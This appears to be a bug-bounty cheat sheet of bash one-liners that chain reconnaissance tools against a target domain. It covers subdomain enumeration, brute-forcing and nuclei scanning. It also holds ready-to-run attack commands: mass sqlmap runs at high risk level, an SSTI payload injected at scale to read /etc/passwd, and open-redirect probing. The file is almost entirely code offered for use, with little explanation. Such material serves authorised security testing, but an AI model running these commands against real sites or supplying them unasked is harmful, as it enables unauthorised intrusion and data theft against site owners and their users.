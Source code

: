 




### Auto scanner

```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### Find interesting subdomain (For example like admin.staging.example.com) 

```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```

### Find SQL injection at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

### Find open redirects at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```

### Find SSTI at scale

```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

### Scanning top exploited vulnerabilities according to CISA

```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```

### Bruteforce subdomains

```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```
